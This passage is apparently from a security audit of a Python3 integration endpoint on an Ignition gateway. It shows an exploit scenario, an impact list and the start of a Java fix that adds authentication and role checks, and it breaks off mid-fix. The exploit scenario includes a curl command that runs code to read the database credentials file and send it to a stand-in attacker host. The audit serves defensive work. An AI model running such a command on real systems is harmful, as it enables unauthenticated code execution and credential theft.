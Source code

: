 **Exploit Scenario:**

```bash
# Attacker from internet (no credentials needed)
curl -X POST http://public-gateway.company.com:8088/data/python3integration/api/v1/exec \
  -H "Content-Type: application/json" \
  -d '{
    "code": "import urllib.request; urllib.request.urlopen(\"http://attacker.com/steal?data=\" + open(\"/opt/ignition/data/db.properties\").read())"
  }'

# Database credentials exfiltrated
# Gateway compromised
# No authentication required
# No rate limiting
# No audit trail
```

**Impact:**
- Remote unauthenticated code execution (RCE)
- Data breach (database credentials, configuration)
- Complete Gateway compromise
- No accountability (no user attribution)
- Botnet attacks (automated exploitation)

**Recommended Fix (Priority 1):**

```java
// Python3RestEndpoints.java - SECURE VERSION

public class Python3RestEndpoints {
    private static final Logger LOGGER = LoggerFactory.getLogger(Python3RestEndpoints.class);

    /**
     * Check if user has permission to execute Python code
     */
    private static RouteAccess checkExecutePermission(RequestContext req) {
        try {
            // Get authenticated user
            User user = req.getUser();

            // Require authentication
            if (user == null) {
                LOGGER.warn("Unauthenticated Python execution attempt from IP: {}",
                    req.getRemoteAddr());
                return RouteAccess.DENIED("Authentication required");
            }

            // Check specific permission
            SecurityContext securityContext = req.getGatewayContext().getSecurityManager().getSecurityContext();

            // Option 1: Check role
            if (!user.getRoles().contains("Python3Admin") &&
                !user.getRoles().contains("Administrator")) {

                LOGGER.warn("User {} attempted Python execution without Python3Admin role",
                    user.getUsername());

                return RouteAccess.DENIED(
                    "Insufficient permissions. Required role: Python3Admin"
                );
            }

            // Option 2: Check custom permission (better)
            if (!securityContext.hasPermission("python3.execute")) {
```